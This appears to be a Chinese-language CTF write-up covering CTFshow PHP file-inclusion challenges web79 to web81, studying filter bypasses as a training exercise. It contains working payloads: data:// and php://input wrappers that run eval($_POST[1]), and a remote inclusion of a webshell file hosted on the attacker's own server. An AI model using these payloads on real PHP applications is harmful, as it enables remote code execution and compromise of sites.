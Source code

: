 php被替换成???了，**php://**可以用大小写绕过，但是**flag.php**不行

所以换一种为协议`data://text/plain,`后接php代码可以直接执行
构造payload
`?file=data://text/plain,<?=eval($_POST[1]);?>`然后就简单了

### web80

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

php和data都被过滤了，**data**我试了下大小写绕过，不行

**第一种办法**

**php://input** 可用大小写绕过

![image-20220628113842236](D:\Typora\note\CTF\web\CTFshow_vip.assets\image-20220628113842236.png)

一定要用raw方式上传POST数据，直接用hackbar的上传不成功

**第二种方法**

包含自己服务器的txt(php也可以)文件，然后**include**服务器上的该文件，就可以任意命令执行

所以payload为
`?file=http://XXX:XXXX/shell.txt`
shell.txt里的内容为`<?php eval($_POST[1]);?>`
然后POST传数据即可

### web81

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

多过滤了`:`，web80的第二种办法和日志文件包含还是可以用

可手工日志文件包含，也可写个脚本试试
